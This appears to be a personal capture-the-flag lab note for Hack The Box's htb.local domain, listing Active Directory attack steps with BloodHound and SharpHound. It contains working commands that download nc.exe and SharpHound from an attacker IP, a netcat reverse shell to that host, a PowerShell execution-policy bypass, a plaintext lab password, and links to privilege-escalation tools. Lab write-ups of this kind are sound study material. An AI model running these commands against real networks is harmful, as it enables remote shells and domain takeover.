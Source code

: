 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - ActiveDirectory
  - Tooling
---
```

`sudo neo4j console`

http://localhost:7474/browser/

Then type **bloodhound** into local shell

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/nc.exe' -Outfile C:\Users\svc-alfresco\Desktop\nc.exe`

`C:\Users\svc-alfresco\Desktop\nc.exe -e cmd.exe 10.10.14.16 4444`

`Invoke-WebRequest -Uri 'http://10.10.14.16:8000/SharpHound.ps1' -Outfile C:\Users\svc-alfresco\Desktop\SharpHound.ps1`

`PowerShell -Exec Bypass`

`. .\SharpHound.ps1`
`invoke-bloodhound -collectionmethod all -domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice`

Get back to box and drag into blood hound

The sandwich menu button (the red box in the above image) was pressed and the “Find Shortest Paths to Domain Admins” link was pressed:

Research main connection element eg Exchange Windows Permissions

https://chryzsh.github.io/exploiting-privexchange/

Click on the EDGE between nodes for help

https://github.com/fox-it/aclpwn.py